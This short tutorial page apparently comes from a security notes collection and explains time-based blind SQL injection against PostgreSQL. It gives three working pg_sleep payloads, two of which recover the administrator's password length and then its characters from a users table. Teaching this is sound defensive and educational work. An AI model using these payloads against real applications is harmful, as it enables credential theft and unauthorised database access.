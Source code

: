 ```yaml
---
title: Time Delay SQL Injection
date: 2025-10-20
description: Introduce the SQL injection by triggering time delays.
weight: 3
---
```


## Principles

If an application does not return any extra messages when submitting invalid SQL queries, then we can try to trigger time delays.

## Payload

The payload usually combines conditional check and time delay.

Use PostgreSQL for example:

```text
'; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

`pg_sleep(10)` will delay the query for 10 seconds, so the response time will be longer than others.

And we can modify the conditions to get the password length.

```text
'; SELECT CASE WHEN (LENGTH(password) = 1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator'--
```

Then we are also able to get the password with `SUBSTRING()` function.

```text
'; SELECT CASE WHEN (SUBSTRING(password, 1, 1) = 'a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator'--
```

## Reference

[PortSwigger](https://portswigger.net/)

